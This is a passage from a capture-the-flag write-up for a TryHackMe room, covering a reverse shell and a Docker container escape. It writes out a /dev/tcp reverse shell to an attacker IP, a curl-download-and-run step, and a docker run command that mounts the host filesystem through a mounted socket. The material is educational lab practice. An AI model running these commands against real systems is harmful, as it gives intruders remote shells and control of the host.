 ![4e72d80b38e0b1d762906106356c0eb6.png](4e72d80b38e0b1d762906106356c0eb6.png){: w="500" h="300" .center}

We can see that the command ran successfully. It's time to get a shell...

After testing different payloads, this was my way in:

```bash
nano rev.sh
sh -i >& /dev/tcp/<attacker_ip>/53 0>&1 # Paste into nano then CTRL + O to save and CTRL + X to exit
python3 -m http.server 80 # run on attacker machine

curl <attacker_ip>/rev.sh -o /tmp/rev.sh # Submit as input
bash /tmp/rev.sh # Submit as input
```

![489380577ec19828ab416e873ec6c07c.png](489380577ec19828ab416e873ec6c07c.png){: w="600" h="300" .center}

We can see that we are in as `root` but this is just a docker contianer:  
![4536b6bc34be3874d613946e2879f948.png](4536b6bc34be3874d613946e2879f948.png){: w="400" h="300" .center}

Let's get `linpeas` on the machine and enumerate it:

- Linpeas found the `/app` directory which I completely overlooked.
- Looking inside, there is a file called `docker-compose.yaml`.

The third flag can be found within this file
**Take note of the mounted Docker socket**

![984d1e7448320c6088ea70dd34757f28.png](984d1e7448320c6088ea70dd34757f28.png){: w="400" h="300" .center}

## Flag 4

Sicne the docker socket is mounted inside the container, we can interact with the docker engine and escape the container by abusing it.

```bash
docker images # choose any of these
docker run -v /:/host --rm -it <REPOSITORY>:<TAG> bash
```

1. We are basically running the container
2. Mounting the `/` directory of **the host** into this container under the path  `/host`
3. Then we are executing `bash` to interact with the container  
    ![a9ca05718fd7feea8380148a1ff8615a.png](a9ca05718fd7feea8380148a1ff8615a.png){: w="500" h="300" .center}

After navigating to `/host` within the container, we see the file called `flag.txt`  
The final flag can be found within this file  
![3bcfe0d4cc512184c3ff96a7e043c80f.png](3bcfe0d4cc512184c3ff96a7e043c80f.png){: w="400" h="300" .center}

## Outro
Many thanks to the creators of this room:
- [ioctl](https://tryhackme.com/p/ioctl)
- [tgreenMWR](https://tryhackme.com/p/tgreenMWR) 

I learned a completely new attack from this room which was fascinating.

\- m3gakr4nus
